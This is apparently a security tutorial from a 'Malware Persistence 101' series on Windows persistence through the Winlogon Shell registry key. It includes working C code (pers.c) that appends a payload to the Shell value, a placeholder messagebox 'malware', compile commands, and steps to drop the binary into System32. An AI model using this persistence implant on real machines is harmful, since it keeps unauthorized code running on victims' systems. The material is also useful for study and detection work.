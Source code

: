 # 05 persistence - winlogon process

The Winlogon process is responsible for user logon and logoff, startup and shutdown and locking the screen. Authors of malware could alter the registry entries that the Winlogon process uses to achieve persistence.    

The following registry keys must be modified in order to implement this persistence technique:    

- `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell`   
- `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`   

However, local administrator privileges are required to implement this technique.  

Let's say we have a "malware" example:    

```cpp
/*
 * Malware Persistence 101
 * hack.c
 * "Hello, Prishtina!" messagebox
 * author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Hello, Prishtina!","=^..^=", MB_OK);
  return 0;
}
```

As you can see, it's just a pop-up message as usually.    

Compile it:

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![img](./img/2024-05-05_15-01.png)    

The generated `hack.exe` needs to be dropped into the victim's machine.

Changes to the `Shell` registry key that include an malicious app will result in the execution of both `explorer.exe` and `hack.exe` during Windows logon.

This can be done immediately using the script below:    

```cpp
/*
 * Malware Persistence 101
 * pers.c
 * windows persistence via winlogon keys
 * author: @cocomelonc
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // shell
  const char* sh = "explorer.exe,hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Shell", 0, REG_SZ, (unsigned char*)sh, strlen(sh));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![img](./img/2024-05-05_15-03.png)   

And see everything in action. First of all, check registry keys:    

```powershell
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /s
```

![img](./img/2024-05-05_15-08.png)   

Copy malicious app to `C:\Windows\System32\`:   

![img](./img/2024-05-05_15-09.png)    

And run:

```powershell
.\pers.exe
```

![img](./img/2024-05-05_15-10.png)    

Then, logout and login:   

![img](./img/2024-05-05_15-15.png)    

![img](./img/2024-05-05_15-12.png)    

According to the logic of the our malicious program, "Hello, Prishtina!" messagebox popped up:    

![img](./img/2024-05-05_15-13.png)    


Let's check process properties via Process Hacker 2:    

![img](./img/2024-05-05_15-16.png)    

As you can see, the malware will be executed during Windows authentication.    
